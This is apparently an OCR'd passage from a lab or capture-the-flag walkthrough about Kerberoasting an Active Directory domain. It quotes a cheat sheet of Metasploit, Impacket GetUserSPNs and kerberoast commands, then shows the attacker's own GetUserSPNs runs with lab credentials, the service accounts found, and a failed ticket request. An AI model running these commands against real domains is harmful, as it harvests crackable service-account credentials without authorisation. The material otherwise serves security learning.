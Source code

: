 
[Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

[**#Attack**]

**Linux**:
```sh
# Metasploit framework
msf> use auxiliary/gather/get_user_spns
# Impacket
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
# kerberoast: https://github.com/skelsec/kerberoast
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable # 1. Enumerate kerberoastable users
kerberoast spnroast 'kerberos+password:
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

<❌ Failed Step>

`impacket-GetUserSPNs -dc-ip 192.168.56.128 'SOUPEDECODE.LOCAL/ybob317:ybob317'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 13:32:23.726085  <never> ←              
FW/ProxyServer          firewall_svc              2024-06-17 13:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 13:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 13:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 13:29:18.511871  <never>   
```

`impacket-GetUserSPNs -dc-ip 192.168.56.128 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 13:32:23.726085  <never> ←              
FW/ProxyServer          firewall_svc              2024-06-17 13:28:32.710125  <never>               
HTTP/BackupServer       backup_svc                2024-06-17 13:28:49.476511  <never>               
HTTP/WebServer          web_svc                   2024-06-17 13:29:04.569417  <never>               
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 13:29:18.511871  <never>               



[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) ←
```
